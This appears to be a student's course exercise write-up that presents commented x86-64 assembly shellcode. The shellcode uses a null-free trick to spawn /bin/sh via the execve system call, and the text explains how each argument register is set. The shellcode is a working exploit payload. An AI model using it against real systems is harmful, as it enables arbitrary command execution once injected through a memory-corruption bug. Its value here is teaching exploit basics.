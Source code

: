## ShellCode Creation
# A code block containing your assembly instructions for your shellcode 
```
.text
.global _start
_start:
	movabsq $0x68732f6e69622f20, %rax /* move 64 bits into rax */
	shr $8, %rax /* remove null terminators by shifting down 8 bits */
	pushq %rax /* push the above -> stack /bin/sh\0 [1st arg] */
	
	/* rdi holds 1st arg of func */
	/* pointer to path to be executed */
	movq %rsp, %rdi /* /bin/sh to rdi */
	
	/* rsi holds 2nd arg of func array of command line args */
	/* array of command line args to pass */
	xorq %rax, %rax /* set to 0 */
	pushq %rax /* push null terminator -> stack */
	pushq %rdi /* push /bin/sh -> stack */
	movq %rsp, %rsi /* point (mov) /bin/sh to rsi */
	
	/* rdx 3rd arg of env var */
	/* no environment variables to pass */
	movq %rax, %rdx /* set to 0 */
	
	addq $0x3b, %rax /* move execve into rax */
	
	syscall
	
	leave
	ret
	
```


# A step-by-step explanation of your assembly code and how it sets up the system call 
To execute : execve (char *pathname, char **argv, char **envp) 

pathname : /bin/sh			argv : [ /bin/sh, NULL]				envp : NULL


# Report how many bytes total are in your assembly, and include the whole thing in ascii 


